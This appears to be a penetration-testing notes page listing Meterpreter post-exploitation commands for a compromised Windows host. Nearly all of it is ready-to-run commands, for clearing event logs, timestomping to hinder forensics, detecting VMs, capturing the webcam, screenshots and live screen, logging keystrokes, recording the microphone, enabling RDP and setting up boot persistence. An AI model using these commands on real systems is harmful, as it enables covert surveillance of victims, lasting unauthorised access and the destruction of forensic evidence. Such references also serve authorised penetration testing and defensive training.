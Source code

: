 # Meterpreter post-exploitation commands

<div class="row row-cols-md-2 mt-4"><div>

You can pivot using a [SOCKS proxy server](/operating-systems/networking/protocols/socks.md).

* ➡️ | `root`. Clear logs

```shell!
meterpreter> clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```shell!
meterpreter> timestomp
```

* ➡️  | `not tested`. Check if we are in a VM

```shell!
meterpreter> run post/windows/gather/checkvm
```

* ➡️ Resolve a host from a name <small>(get IP from hostname)</small>

```shell!
meterpreter> resolve hostname
```

* ➡️ Random commands

```shell!
meterpreter> idletime # time the host was idle
meterpreter> ipconfig # network information
meterpreter> localtime # time and date
meterpreter> getenv PATH # get PATH
meterpreter> checksum <file> # get file checksum
```
</div><div>

All the commands below require administrative/root privileges.

<details class="details-e">
<summary>Take control of the webcam</summary>

```shell!
meterpreter> webcam_list
meterpreter> webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> use espia
meterpreter> screengrab
```

You may also use `screenshot` 📌.
</details>

<details class="details-e">
<summary>Install a keylogger</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> keyscan_start # start
meterpreter> keyscan_dump # dump keys
```
</details>

<details class="details-e">
<summary>Watch the screen in real time</summary>

Watch the remote user desktop in real time

```shell!
meterpreter> screenshare
meterpreter> record_mic # Record audio from the default microphone for X seconds
```
</details>

<details class="details-e">
<summary>Record microphone</summary>

Record audio from the default microphone for X seconds

```shell!
meterpreter> record_mic
```
</details>

<details class="details-e">
<summary>Enable Remote Desktop Protocol</summary>

```shell!
meterpreter> run post/windows/manage/enable_rdp
```
</details>

<details class="details-e">
<summary>Persistence</summary>

See [METERPRETER SERVICE](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/).

```shell!
meterpreter> # Automatically start the agent when the system boots
meterpreter> run persistence -X
```
</details>
</div></div>